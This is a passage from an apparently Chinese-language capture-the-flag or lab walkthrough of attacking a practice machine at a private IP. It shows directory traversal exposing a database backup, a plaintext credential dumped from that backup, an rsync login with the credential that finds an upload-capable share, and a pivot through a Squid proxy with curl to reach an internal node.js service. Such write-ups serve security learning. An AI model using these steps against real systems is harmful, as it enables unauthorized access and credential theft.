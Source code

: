 利用漏洞进行目录遍历：

![image-20250913102558551](http://7r1UMPHK.github.io/image/20250913111727174.webp)

成功获取上级目录列表，发现 `bak2025` 目录，其中包含数据库备份文件 `backup2025-09-10.sql`。

## 3.2 数据库凭据提取

下载并分析数据库备份：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ wget http://192.168.205.189:8080/bak2025/backup2025-09-10.sql
...

┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ sqlite3 backup2025-09-10.sql
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
1|dev|null
2|admin|null
3|proxy|Pr0xyH@sTh3P0w3r
4|haris|null
```

获得凭据：`proxy:Pr0xyH@sTh3P0w3r`

# 四、权限获取

## 4.1 测试凭据

SSH 登录失败，但 rsync 验证成功：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ rsync -av --list-only rsync://proxy@192.168.205.189/_dev
Password: 
receiving incremental file list
drwxr-xr-x          4,096 2025/09/11 14:25:22 .
...
```

目录为空，但可以上传文件。

## 4.2 内网服务探测

使用获得的凭据通过 Squid 代理访问内网：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl -U proxy:Pr0xyH@sTh3P0w3r -x http://192.168.205.189:3128 http://127.0.0.1:8080
<html>
  <head>
    <title>node.js http server</title>
  </head>
  ...
</html>
```

